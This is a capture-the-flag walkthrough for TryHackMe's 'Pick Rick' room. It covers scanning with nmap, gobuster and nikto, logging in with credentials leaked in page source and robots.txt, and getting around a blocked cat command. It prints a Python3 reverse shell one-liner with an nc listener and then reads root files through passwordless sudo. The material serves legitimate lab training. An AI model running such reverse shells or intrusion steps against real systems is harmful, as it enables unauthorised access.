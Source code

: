 This is a detailed walkthrough of tryhackme CTF title Pick Rick: This Rick and Morty-themed CTF revolves around exploiting a vulnerable web server to find three ingredients to transform Rick from a pickle back to human state. This walkthrough is intended to be used as a guide so no actaul flags or "answers" will be revealed. 

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals two open ports:

![nmap_result](https://github.com/user-attachments/assets/9cffca0f-cd9d-44e0-99eb-7bd522615f25)

# Enumeration

### **Analysis Port 80/TCP**

Let's check out the websever on port 80/TCP.

I checked the source code and revealed a username in the html comments:

![pagesource](https://github.com/user-attachments/assets/23742b21-e765-47e8-8788-cc3d68224727)


Now let's run a directory scan on the target using gobuster:

```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x txt,php,html -o buster.txt
```
Command break down:

dir: Specifies that we want to perform directory brute-forcing.

-u $ip: The -u flag followed by the target IP address or hostname indicates the URL to scan.

-w=/usr/share/wordlists/dirb/common.txt: This option specifies the wordlist to use for directory brute-forcing. In this case, it uses the common wordlist located at /usr/share/wordlists/dirb/common.txt.

-x txt,php,html: The -x flag specifies file extensions to search for. Here, we’re looking for files with extensions .txt, .php, and .html.

-o buster.txt: The -o flag specifies the output file where the results will be saved. In this case, it saves the output to a file named “buster.txt.”

We found two interesting directories:

![buster](https://github.com/user-attachments/assets/005f3530-538e-4fb7-a809-9c0379e1e99b)

```bash
/login.php
/robots.txt
```

Robots.txt can often reveal vulnerabilities in a web server, or inadvertently leaked information. 
Let's also run a nikto scan on the target IP:

```bash
nikto -h $ip | tee nikto.txt
```
Command break down:
-h $ip: The -h option specifies the target host

| tee nikto.txt: The tee command allows you to save the output to a file (nikto.txt) 

![nikto](https://github.com/user-attachments/assets/2be2bf43-af1f-4a72-929a-76fdcbce784f)

This again reveals the /login.php directory among other information.

Browsing to /login.php , we are redirected to a log in page :

![login](https://github.com/user-attachments/assets/8ffd221c-cca9-4f8e-bee7-36c19203e518)

Navigating to robots.txt reveals a strange word that looks like it might be a login password.

Let's try logging in with the username we found earlier from the sourcecode and the potential password from robots.txt.

# Gaining privileges

Success! We are now logged in!

We are presented with a command panel. 

Running the command id reveals that we are www-data:

```bash
id
```
![id](https://github.com/user-attachments/assets/3366d92d-5891-44e8-8dce-2f462c7998d9)

Now, let's run ls -la to see what files are available: 

```bash
ls -la
```
![ls -la](https://github.com/user-attachments/assets/ec5f253e-5e29-4132-afb8-42615a23012e)

Let's run the cat command on clue.txt:

![cat](https://github.com/user-attachments/assets/5a99da24-b9ab-430f-8347-eaf843b8b82e)

The cat command is disabled. Let's try some other commands with similiar functionality to cat, like less. 
less works and the contents display: Look around the file system for the other ingredient.
Ok, let's run less on Sup3rS3cretPickl3Ingred.txt.
And this returns our first secret ingredient!

# Expolitation

Let's try to get more access to this web server with a reverse shell. 
As a test, let's run a simple python command:

```bash
python3 -c 'print("test")'
```
The command works and displayed test. This let's us know that we can run python3 commands. So, let's try running a reverse shell in python3. 
I often like to use the site "https://www.revshells.com/" because it has a large colletion of reverse shell, with a simple interface to input 
your IP and desired port number, as well as showing the nc listener.

Scroll down on through the list of reverse shells on the bottom left until you get to Python3 shortest. In our situation with the command panel,
I find that shorter shells tend to have a high success rate.

Shell for input on command panel:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.24.123",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

nc listener for output on our terminal:
```bash
nc -lvnp 4444
```

Alright! We have a reverse shell as www-data! Let's run the command env to get a summary of environmental varialbles:

![env](https://github.com/user-attachments/assets/fc127f2a-363d-4178-9f22-c83e649baa39)

Ok, the first thing I like to do is run a few commands to upgrade our shell's functionality and stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl -z
stty raw -echo; fg
stty rows 38 columns 116
```

Now that we have upgraded the shell, let's check for privileges of www-data:

Command:
```bash
sudo -l
```
![sudo -l](https://github.com/user-attachments/assets/19ce7691-b99e-4672-b0db-c1f42841d650)

This is great news as it indicates we can execute any command with no password!
Let's explore the file system and get the other flags. First, let's check the home directory:
Command:
```bash
ls /home
```
We see two directories in home: rick and ubuntu. Now, we'll navigate to /home/rick.
Command:
```bash
cd /home/rick
ls -lah
```

Great! Let's use less to see the contents of the 2nd ingredient, don't forget to use '' due to the space.


![2nd](https://github.com/user-attachments/assets/da82fe39-0967-4c92-a433-042f5c4d7539)

We now have the second ingredient! 
Let's check the root directory for the 3rd one. A couple things to note. We will need to use the sudo command with no pasword to display the 3rd flag. I also noticed that we actually can use the cat command in our shell.
```bash
sudo ls /root
sudo cat /root/3rd.txt
```

And we now have the 3rd flag! I hope you enjoyed this CTF and it was a good learning experience. Remember that there are different approaches that you can take in the room to get the same results, so try some different approaches and techniques. 

